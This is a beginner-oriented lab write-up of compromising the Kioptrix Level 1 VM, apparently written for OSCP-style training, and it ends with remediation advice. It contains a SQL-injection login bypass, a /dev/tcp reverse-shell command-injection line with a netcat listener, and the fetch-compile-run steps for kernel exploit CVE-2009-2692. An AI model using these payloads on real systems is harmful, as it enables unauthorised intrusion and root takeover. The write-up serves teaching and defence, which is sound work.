






# Kioptrix Level 1 — Penetration Test Write-up

A complete, beginner-friendly walkthrough of compromising the **Kioptrix Level 1** vulnerable machine (VulnHub) in an isolated home lab. Instead of just listing commands, this write-up walks through the **thought process** — what I looked for at each stage, how I spotted each vulnerability, and how one finding led to the next — following the full methodology: **reconnaissance → enumeration → exploitation → privilege escalation → root**.

> **Legal & Ethical Notice:** All activity was performed against a deliberately vulnerable practice VM on a private, isolated lab network. Only private RFC-1918 addresses (192.168.x.x) are involved. Never test systems you do not own or lack explicit written permission to test.

---

## Table of Contents

1. [What is Kioptrix Level 1?](#what-is-kioptrix-level-1)
2. [Methodology at a Glance](#methodology-at-a-glance)
3. [Lab Setup](#lab-setup)
4. [Step 1 — Host Discovery](#step-1--host-discovery)
5. [Step 2 — Service & OS Enumeration](#step-2--service--os-enumeration)
6. [Step 3 — Initial Access (Web Exploitation)](#step-3--initial-access--web-application-exploitation)
7. [Step 4 — Finding & Weaponising the Privilege-Escalation Exploit](#step-4--finding--weaponising-the-privilege-escalation-exploit-cve-2009-2692)
8. [Alternative Path — Samba trans2open](#alternative-path--samba-trans2open-cve-2003-0201)
9. [Attack Chain Summary](#attack-chain-summary)
10. [Remediation Recommendations](#remediation-recommendations)
11. [What I Learned](#what-i-learned)

---

## What is Kioptrix Level 1?

Kioptrix Level 1 is one of the most popular beginner boot-to-root machines on VulnHub, widely used for OSCP preparation. The goal is to gain `root` (full administrative control) starting from nothing but network access. It runs an old CentOS-based Linux system with several outdated, intentionally vulnerable services, which makes it perfect for learning the full penetration-testing workflow.

---

## Methodology at a Glance

Every step in a penetration test answers a simple question, and the answer decides the next move:

1. **What is on the network?** → find the target's IP.
2. **What is running on it?** → enumerate ports, services, and versions.
3. **Which of those is weak?** → research each service/version for known flaws.
4. **How do I get in?** → exploit a weakness to land an initial foothold.
5. **How do I become root?** → escalate privileges using another weakness.

The sections below follow this exact chain of reasoning.

---

## Lab Setup

| Role | Host | IP |
|------|------|----|
| Attacker | Kali Linux | 192.168.1.64 |
| Target | Kioptrix Level 1 | 192.168.1.99 |

**Tools used:** netdiscover, Nmap, searchsploit, Python HTTP server, wget, gcc, netcat.

---

## Step 1 — Host Discovery

**Question I'm answering:** *Where is the target on the network?*

Before I can attack anything, I need its IP address. I used ARP-based scanning with **netdiscover**, which passively/actively listens for ARP replies to map every live host on the local subnet. Two hosts showed up — my own machine and an unknown device at `192.168.1.99`, which is the target.



---

## Step 2 — Service & OS Enumeration

**Question I'm answering:** *What is running on the target, and how old is it?*

Now that I have the IP, I map its attack surface. I ran an Nmap scan with version detection (`-sV`) and OS detection (`-O`), because knowing the **exact software versions** is what lets me look up known vulnerabilities later:

```bash
nmap -sV -O 192.168.1.99
```

**Key findings:**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 3.9p1 (protocol 1.99) |
| 80/tcp | http | Apache httpd 2.0.52 (CentOS) |
| 111/tcp | rpcbind | RPC #100000 |
| 443/tcp | ssl/http | Apache httpd 2.0.52 (CentOS) |
| 631/tcp | ipp | CUPS 1.1 |
| 3306/tcp | mysql | MySQL |

**OS detection:** Linux kernel 2.6.9 – 2.6.30 (CentOS).

**What this tells me:** every version here is ancient. Apache 2.0.52 and OpenSSH 3.9p1 are well over a decade old, and a Linux 2.6 kernel is a huge red flag for a local privilege-escalation exploit later. Two things jump out as the most promising entry points: the **web server on port 80** (something to interact with directly in a browser) and the **old kernel** (a likely path to root once I'm inside). I noted both and started with the web app.



---

## Step 3 — Initial Access — Web Application Exploitation

**Question I'm answering:** *Can I turn the web server into a foothold?*

Browsing to the web server, I found a **Remote System Administration Login** page. My first instinct on any login form is to test for **SQL injection** — a flaw where user input is placed directly into a database query. If the form is vulnerable, I can make the query always return true and log in without credentials. I tried the classic authentication-bypass payload in the username field:

```sql
admin' or 1=1 #
```

The `'` closes the string, `or 1=1` makes the condition always true, and `#` comments out the rest of the query (including the password check). It worked.



Inside, I reached a **Basic Administrative Web Console** with a "Ping a Machine on the Network" feature. Any feature that takes user input and appears to run a system command (like `ping`) is a prime candidate for **command injection**. I tested whether I could chain my own command onto the input, and used it to launch a **reverse shell** back to my attacker machine:

```bash
| sh -i >& /dev/tcp/192.168.1.64/4444 0>&1
```

The leading `|` pipes into a new shell, and `/dev/tcp/192.168.1.64/4444` opens a connection back to my Kali box on port 4444.



I had a listener waiting on the attacker side to catch it, which gave me a low-privilege shell on the target:

```bash
nc -lvnp 4444
```

---

## Step 4 — Finding & Weaponising the Privilege-Escalation Exploit (CVE-2009-2692)

**Question I'm answering:** *I'm in as a low-privilege user — how do I become root?*

My shell was running as the low-privileged web user, so I needed to escalate. Rather than guess, I went back to a concrete clue from enumeration: the **Linux 2.6 kernel**. Old kernels have well-documented local privilege-escalation bugs, so this was the natural thing to research.

**How I searched for the vulnerability:** I used **searchsploit**, Kali's offline copy of the Exploit-DB database, to look for local exploits matching that kernel. The Linux 2.6 branch is affected by the famous **sock_sendpage()** bug (**CVE-2009-2692**), and searchsploit pointed me to exploit **9545.c**. I copied it to my working directory with `-m`:

```bash
searchsploit linux kernel 2.6 local          # browse matching local exploits
searchsploit -m linux/local/9545.c           # copy exploit 9545.c locally
```

The entry confirmed exactly what I wanted: **CVE-2009-2692 / EDB-9545**, verified, C source.



**How I got the exploit onto the target:** the exploit is C source that must be compiled *on the victim*, so I first served it from my attacker box over HTTP, then pulled it down through my reverse shell, compiled it, and ran it:

```bash
# On attacker (Kali) — host the exploit
python3 -m http.server 8000

# On target (via reverse shell) — fetch, compile, run
cd /tmp
wget 192.168.1.64:8000/9545.c
gcc -o exploit 9545.c
chmod +x exploit
./exploit
whoami        # => root
```

*(Small gotcha I hit: the module name is `http.server`, not `httpserver` — the earlier attempts failed until I got the exact syntax.)*

The exploit succeeded, escalating me from the limited web user to **root** — full compromise of the host.



---

## Alternative Path — Samba trans2open (CVE-2003-0201)

Kioptrix Level 1 is also famous for a second, entirely different route to root through its old **Samba** service. Older Samba 2.2.x builds are vulnerable to the **trans2open** buffer overflow (**CVE-2003-0201 / OSVDB-8306**), which can be exploited (e.g., via a Metasploit module or public exploit) to get a **root shell directly**, with no separate privilege-escalation step.

I documented the web-app → kernel-exploit path above because that is the route I performed. It's worth knowing both exist: the Samba route is often the quickest "intended" solution, while the web + kernel-exploit route demonstrates a broader chain of techniques and reasoning.

---

## Attack Chain Summary

Starting from an unauthenticated network position, the target was fully compromised:

```
reconnaissance -> service enumeration -> web app exploitation (SQLi + command injection)
-> reverse shell -> kernel privilege escalation (CVE-2009-2692) -> root
```

Each step was driven by a finding from the previous one: the open web port led to the SQLi and command injection; the old kernel spotted during enumeration led directly to the privilege-escalation exploit.

---

## Remediation Recommendations

- **Patch aggressively:** upgrade the Linux kernel, Apache, and Samba to remove known CVEs (e.g., CVE-2009-2692, CVE-2003-0201).
- **Fix SQL injection:** use parameterized queries / prepared statements; never build SQL from raw user input.
- **Fix command injection:** validate and sanitize all input, avoid passing user input to shell commands, and use safe APIs instead of shelling out.
- **Least privilege & segmentation:** restrict and network-segment administrative interfaces, and run services as non-root where possible.
- **Disable unused services:** close ports/services (e.g., legacy RPC, CUPS, Samba) that aren't required.

---

## What I Learned

Working through the full attack chain deepened my understanding of attacker tactics, techniques, and procedures (TTPs) — and, just as importantly, the **reasoning** that connects them. Knowing how each finding drives the next decision directly strengthens my SOC / blue-team work: understanding how an intrusion actually unfolds makes alert triage, log analysis, and threat detection far sharper.

---

*Written by Prashant Sapkota. Performed in a legal, isolated home lab for educational purposes.*
